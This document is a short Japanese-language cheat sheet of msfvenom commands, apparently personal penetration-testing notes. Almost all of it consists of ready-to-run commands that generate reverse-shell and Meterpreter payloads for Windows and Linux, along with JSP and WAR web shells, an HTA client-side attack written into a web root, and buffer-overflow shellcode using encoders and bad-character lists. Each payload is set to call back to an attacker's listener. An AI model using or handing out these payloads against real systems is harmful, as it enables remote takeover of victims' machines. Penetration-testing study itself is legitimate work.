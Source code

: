 # msfvenom

### payloadの確認

```bash
msfvenom -l payloads > payloads.txt
cat payloads.txt | grep windows/shell | grep reverse | grep tcp
```

### フォーマットの確認

```bash
msfvenom -h
msfvenom --list formats
```

### リバースシェル（C言語）

```c
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

### rawコードシェル

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe' -f raw -b "\x00\x0a\x0d\xff" -o raw_shellcode.txt
```

出力ファイルをそのままncで転送するような場合に利用

### BOF用(アプリのクラッシュを防ぐシェル)

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe'  EXITFUNC=thread -f python -b "\x00\x0a\x12\x1a\x4e\xb1\xd5" 
```

### msfconsole用(windows)

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.86.217 LPORT=4443 -f exe -o reverse_tcp.exe
```

### tcpリバースシェル

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.86.217 LPORT=4444 -f exe > eternalblue.exe
```

### client-side attack hta

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.131 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

### elfファイル

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.153 LPORT=443 -f elf > shell.elf
```

### javascript

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.168 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
```

### War

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.130 LPORT=4444 -f raw > shell.jsp
```


